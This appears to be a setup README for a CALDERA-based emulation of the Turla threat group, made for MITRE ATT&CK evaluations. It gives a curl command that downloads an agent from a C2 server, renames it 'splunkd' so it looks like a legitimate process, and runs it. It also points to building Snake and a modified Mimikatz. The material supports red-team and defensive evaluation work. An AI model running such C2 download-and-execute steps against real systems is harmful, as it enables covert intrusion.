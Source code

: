 # Caldera Port of Turla

## OVERVIEW

The Turla port contains two adversary profiles for each of the executed scenarios in MITRE Engenuity's ATT&CK® Evaluations: Enterprise - Round 5. **Follow the setup instructions below** and then navigate to the scenario-specific setup guides for the profile you would like to execute:

- [Carbon Scenario](Carbon_Scenario.md)
- [Snake Scenario](Snake_Scenario.md)

Information about each scenario can be found [here](../../Emulation_Plan/README.md).

## DEPENDENCIES

### CALDERA C2 Server

- Linux/Mac OS, 64-bit
- git commandline installed
- python3.8+ with pip3
- golang 1.17+
  - required for dynamic agent compilation
- Recommended hardware is 8GB+ RAM and 2+ CPUs

### Attacker Machine Dependencies

- Linux OS, 64-bit
  - Kali recommended
  - Can be the same machine as the CALDERA C2 server
- Command-line tools
  - xfreerdp
  - xdotools
  - curl
  - urllib3
  - ncat (by Nmap)

## SETUP

### Download and Install CALDERA

Run the following on a Linux/Mac machine of your choice. This machine will act as your C2 server, or the "attacker" host. For the purposes of this walkthrough, the C2 server will have an IP address of `176.59.15.33`.

```shell
git clone --depth 1 https://github.com/mitre/caldera.git --recursive
cd caldera
git checkout master && git pull
cp conf/default.yml conf/local.yml
cd plugins/emu
git checkout master && git pull
```

Add the `emu` plugin to your `conf/local.yml` configuration file. Feel free to enable or disable other plugins
by adding/removing them from the configuration file. You can also configure your user accounts and credentials if needed.

```shell
vi conf/local.yml
```

Download pip dependencies.

```shell
pip3 install --upgrade setuptools
pip3 install --upgrade pip
pip3 install -r requirements.txt
```

Download required payloads for `emu` plugin.

```shell
# from caldera/plugins/emu directory 

git checkout master && git pull
./download_payloads.sh
```

Run your C2 server from the caldera directory. This will unzip encrypted executables throughout the `adversary-emulation-library` and ingest its emulation plans.

```shell
# from caldera directory

python3 server.py --insecure --log DEBUG
```

## Compile Snake & Mimikatz Binaries

### Snake

:exclamation: Snake has not been included in this binaries.zip. Please visit the following
resources for building Snake and its components:

- [Snake Installer Build](../../Resources/Snake/SnakeInstaller/README.md#build)
- [Snake Build Script](../../Resources/Snake/buildall.ps1)

### Mimikatz

:exclamation: Mimikatz must be modified and compiled according to these [instructions](https://github.com/attackevals/turla/tree/public-release/Resources/Mimikatz#adjustments-made-to-mimikatz-pth-function).

## Launch the Kali Agent

RDP to `176.59.15.33`, the Kali attacker host, as user `dev` with password `DevPass12345`. Launch the Kali agent by running the following command. You may need to modify the command so the server value matches your attacker host's IP address.

:exclamation: Keep this RDP open as this will be leveraged by xfreerdp in the executed Caldera operation. Once the operation has been started, avoid interacting with the RDP to Kali. Clicking or switching windows within the Kali RDP will interfere with the user activity that is automated through Caldera.

```shell
cd /home/dev/caldera/plugins/emu/data/adversary-emulation-plans/turla/Resources/control_server;
server="http://176.59.15.33:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;
chmod +x splunkd;
./splunkd -server $server -group kali -v
```

Log into CALDERA's web GUI by accessing your C2 server address in a web browser (Chrome recommended), and using your credentials (default username is `red`, default password is `admin`).

On the left sidebar, under "Campaigns", click "agents" and confirm that you see the Kali agent beaconing in.

For best results, make sure you don't have other agents currently beaconing in.
